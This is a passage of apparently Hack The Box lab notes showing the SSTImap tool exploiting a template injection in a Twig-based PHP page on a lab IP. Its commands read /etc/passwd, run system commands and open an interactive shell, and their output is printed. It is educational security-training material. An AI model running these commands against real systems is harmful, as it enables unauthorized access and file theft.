 ```shell
gitblanc@htb[/htb]$ python3 sstimap.py -u http://172.17.0.2/index.php?name=test

<SNIP>

[+] SSTImap identified the following injection point:

  Query parameter: name
  Engine: Twig
  Injection: *
  Context: text
  OS: Linux
  Technique: render
  Capabilities:
    Shell command execution: ok
    Bind and reverse shell: ok
    File write: ok
    File read: ok
    Code evaluation: ok, php code
```

As we can see, SSTImap confirms the SSTI vulnerability and successfully identifies the `Twig` template engine. It also provides capabilities we can use during exploitation. For instance, we can download a remote file to our local machine using the `-D` flag:

```shell
gitblanc@htb[/htb]$ python3 sstimap.py -u http://172.17.0.2/index.php?name=test -D '/etc/passwd' './passwd'

<SNIP>

[+] File downloaded correctly
```

Additionally, we can execute a system command using the `-S` flag:

```shell
gitblanc@htb[/htb]$ python3 sstimap.py -u http://172.17.0.2/index.php?name=test -S id

<SNIP>

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Alternatively, we can use `--os-shell` to obtain an interactive shell:

```shell
gitblanc@htb[/htb]$ python3 sstimap.py -u http://172.17.0.2/index.php?name=test --os-shell

<SNIP>

[+] Run commands on the operating system.
Linux $ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

Linux $ whoami
www-data
```
